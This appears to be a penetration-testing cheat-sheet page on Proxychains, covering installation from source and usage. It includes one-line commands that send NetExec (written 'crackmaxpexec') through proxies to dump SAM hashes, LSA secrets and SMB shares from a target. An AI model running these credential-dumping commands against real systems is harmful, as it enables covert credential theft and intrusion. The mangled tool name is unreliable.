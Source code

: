 # Proxychains

## About

A tool that forces any TCP connection made by any given application to follow through proxy like TOR or any other SOCKS4, SOCKS5 or HTTP(S) proxy. Supported auth-types: "user/pass" for SOCKS4/5, "basic" for HTTP.

### Links

[Github](https://github.com/haad/proxychains)

## Installing

* Source

```
git clone https://github.com/haad/proxychains.git && cd proxychains
./configure
make
sudo make install
```

## Usage

General

```
proxychains COMMAND
```

Passing various \[\[NetExec]] commands

* Dump SAM:

```
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --sam
```

* Dump LSA:

```
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --lsa
```

* Dump shares:

```
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --shares
```
